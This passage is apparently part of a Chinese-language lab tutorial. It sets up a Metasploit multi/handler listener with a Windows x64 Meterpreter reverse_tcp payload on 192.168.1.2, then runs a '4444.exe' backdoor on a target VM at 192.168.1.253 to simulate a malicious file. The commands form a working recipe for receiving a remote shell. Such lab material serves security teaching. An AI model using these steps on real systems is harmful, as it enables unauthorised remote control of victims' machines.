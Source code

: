 ![image-20230503183610206](assets/image-20230503183610206.png)

终端，输入 `msfconsole` 命令，打开 msf 终端

输入 `use exploit/multi/handler` 命令，使用 msf 监听模块。

输入 `set payload windows/x64/meterpreter/reverse_tcp` 命令，指定 payload 类型刚才反向连接后门生成所使用的 payload。

输入 `set lhost 192.168.1.2` 命令，指定 lhost 参数 ip。可看到已经成功设定。

![image-20230503183808114](assets/image-20230503183808114.png)

输入 `run` 命令执行命令，进行监听。

![image-20230503190720919](assets/image-20230503190720919.png)

打开 ip 地址为 192.168.1.253 的靶机，双击 d:\下的 4444.exe。（模拟执行恶意文件）

![image-20230503190918582](assets/image-20230503190918582.png)
